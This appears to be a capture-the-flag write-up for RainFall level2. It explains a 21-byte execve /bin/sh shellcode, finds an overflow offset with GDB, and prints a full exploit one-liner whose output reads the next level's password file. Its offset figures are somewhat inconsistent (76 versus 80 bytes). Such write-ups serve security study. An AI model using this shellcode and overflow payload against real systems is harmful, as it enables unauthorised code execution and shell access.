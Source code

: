 
- **Objective**: The goal of this shellcode is to spawn a shell (`/bin/sh`) when executed. This is commonly used in buffer overflow exploits to execute arbitrary code.
  
- **How it works**:  
  - The shellcode first sets up the `execve` system call, which is used to execute programs in Linux.
  - It places the path to the shell (`/bin//sh`) in the right place (in `ebx`).
  - It sets the arguments for `execve` to `null` (in `ecx` and `edx`).
  - Finally, it makes the system call (`int 0x80`), which runs the shell.

This shellcode is designed to **spawn a shell** (`/bin/sh`) on a Linux system, typically used in the context of exploiting a buffer overflow vulnerability. When this shellcode is executed, it gives the attacker access to a command-line interface (a shell), allowing them to run arbitrary commands.


pattern generating 

``` bash 
python -c 'print "a" * 76' > /tmp/pattern.txt
Now run the program in GDB with the generated input:

(gdb) r < /tmp/pattern.txt
```

This will cause the program to crash due to the buffer overflow. The crash will show the value of the program counter (EIP) and help us determine the offset.

In GDB, you should see something like this:
``` bash
(gdb) r < /tmp/pattern.txt 
Starting program: /home/user/level2/level2 < /tmp/pattern.txt
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```
The value 0x61616161 corresponds to the character 'a'. This means we’ve overflowed the buffer at 76 bytes, which is the exact offset where the return address is stored.

Given that our shellcode is 21 bytes long, we can pad the remaining space with any arbitrary byte sequence until we reach 80 bytes, and then append the 4 bytes that represent the return address.

Thus, the structure of our final attack buffer will be:

Shellcode: 21 bytes
Padding (arbitrary data): 59 bytes
Return address: 4 bytes

``` bash
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
level2@RainFall:~$ su level3
Password:
```

